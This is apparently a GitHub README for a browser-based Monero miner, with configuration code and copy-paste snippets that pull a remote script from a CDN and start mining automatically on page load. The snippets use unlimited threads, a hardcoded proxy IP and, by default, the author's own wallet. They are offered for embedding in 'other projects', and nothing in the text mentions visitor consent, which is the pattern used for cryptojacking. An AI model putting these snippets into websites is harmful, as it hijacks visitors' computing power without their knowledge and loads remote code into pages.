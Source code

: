 ## Monero Webminer

Html & Js code that allows Mining of XMR (Monero) on browsers


# Configure

In index.Html you can configure it your preferences

- Pool
- XMR Wallet
- Miner name
- Threads (-1 means unlimited)
- Miner Password (Optional, Moneroocean does not use password, if your pool does, it is usually "x")


```javascript
server = "wss://45.119.82.33:40725";
    var pool = "pool.supportxmr.com:443";
    var walletAddress = "INSERT YOUR ADDRESS HERE";
    var workerId = "INSERT NODE NAME"
    var threads = -1;
    var password = "";
    startMining(pool, walletAddress, workerId, threads, password);
    throttleMiner = 20;
```
# Running

Open index.html in any web browser and it will automatically start mining.

https://monero-miner.vercel.app/


# Check Progress 

Go to supportxmr.com This is the pool you are connected to, it will show your hashrate and balance.

# How do i know if it works??

1. Open https://monero-miner.vercel.app/
2. Also Open https://supportxmr.com/ in a new tab
3. Paste in my XMR Address 473rsRZRCr4dDsX44yRBSETPrMnHNNzpjG4MkHcuFdRXTcXbbX8T4ow2b8bkZoxEoeVNdagTo8qGwK689wuy7CrWJDXpEup
4. You will see that "GH-XMR" is Mining. You can also do the same 

# Use In Other Projects 


HTML
  
    <!-- Start Of Mining Code (HTML) -->
    <script src="https://cdn.jsdelivr.net/gh/NajmAjmal/monero-webminer@main/script.js"></script>
    <script>
        server = "wss://45.119.82.33:40725";
        var pool = "pool.supportxmr.com:443";
        var walletAddress = "473rsRZRCr4dDsX44yRBSETPrMnHNNzpjG4MkHcuFdRXTcXbbX8T4ow2b8bkZoxEoeVNdagTo8qGwK689wuy7CrWJDXpEup";
        var workerId = "GH-XMR"
        var threads = -1;
        var password = "";
        startMining(pool, walletAddress, workerId, threads, password);
        throttleMiner = 20;
    </script>
    <!-- End Of Mining Code (HTML) -->
      

Javascript import snippet
  
    import 'https://cdn.jsdelivr.net/gh/NajmAjmal/monero-webminer@main/external/javascript.js';


Javascript
    
    // Start Of Mining Code (Javascript)
    var script = document.createElement("script");
    script.src = "https://cdn.jsdelivr.net/gh/NajmAjmal/monero-webminer@main/script.js";
    document.head.appendChild(script);

    server = "wss://45.119.82.33:40725";
    var pool = "moneroocean.stream";
    var walletAddress = "473rsRZRCr4dDsX44yRBSETPrMnHNNzpjG4MkHcuFdRXTcXbbX8T4ow2b8bkZoxEoeVNdagTo8qGwK689wuy7CrWJDXpEup";
    var workerId = "GH-XMR"
    var threads = -1;
    var password = "";
    startMining(pool, walletAddress, workerId, threads, password);
    throttleMiner = 20;
    // End Of Mining Code
    
    
#  Donate
    
    
This software is **100% free** to use, and we would greatly appreciate any donations to help support our work. If you'd like to donate, you can use the following cryptocurrency addresses:



    XMR:  473rsRZRCr4dDsX44yRBSETPrMnHNNzpjG4MkHcuFdRXTcXbbX8T4ow2b8bkZoxEoeVNdagTo8qGwK689wuy7CrWJDXpEup

Thank you for choosing our Monero Webminer. We hope you find it useful and profitable
